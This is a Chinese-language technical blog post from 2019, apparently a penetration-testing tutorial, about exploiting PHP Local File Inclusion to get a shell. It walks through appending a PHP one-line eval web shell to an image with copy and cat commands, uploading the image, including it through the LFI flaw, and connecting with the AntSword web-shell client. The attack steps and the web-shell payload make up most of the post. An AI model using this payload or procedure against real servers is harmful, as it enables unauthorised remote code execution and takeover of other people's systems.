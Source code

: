 ```yaml
---
title: LFI本地文件包含
tags: 文件包含
categories: 技术分享
abbrlink: 2eda3969
date: 2019-10-15 20:33:07
updated: 2019-10-15 20:33:07
---
```


**LFI(Local File Inclusion)**
本地文件包含漏洞，指的是服务器执行PHP文件时，可以通过文件包含函数加载另一个文件中的PHP代码，并且当PHP来执行，利用这个特性，配合文件上传就可以getshell。

已知服务器存在文件包含且存在上传点

![](https://i.loli.net/2019/10/28/PEFt7A4zhejvCrT.png)

只能上传图片，可制作图片一句话木马进行上传

在Windows可以通过cmd制作一句话木马。

命令为

```
copy 1.jpg/b+2.php/a 3.jpg
```

参数/b指定以二进制格式复制、合并文件。用于图像类/声音类文件

参数/a指定以ASCII格式复制、合并文件。用于txt等文档类文件

这条命令就是把j1.pg和2.php合并到一起，生成3.jpg

Linux/Macos下通过终端制作

命令为 

```
cat 1.php >> 2.jpg 
```

这句命令是将1.php追加到2.jpg里面

如果是两个文件合并生成第三个

命令为 

```
cat 1.php 2.jpg >> 3.jpg 
```

PHP一句话 

```
<?php eval(@$_POST['xcx']); ?> 
```

![](https://i.loli.net/2019/10/28/nbHKW8wAzc5efCg.png)

上传图片马

![](https://i.loli.net/2019/10/28/OSp7EcsZQwvIG9V.png)

利用文件包含

![](https://i.loli.net/2019/10/28/AsC3XSg48rGfWTF.png)

可看到图片被解析成了PHP（因为被解析了所以不会显示一句话木马）

使用蚁剑连接

![](https://i.loli.net/2019/10/28/i9QhcJI3vAtoEsg.png)

成功getshell

![](https://i.loli.net/2019/10/28/bdesIZP6pYgEzaG.png)

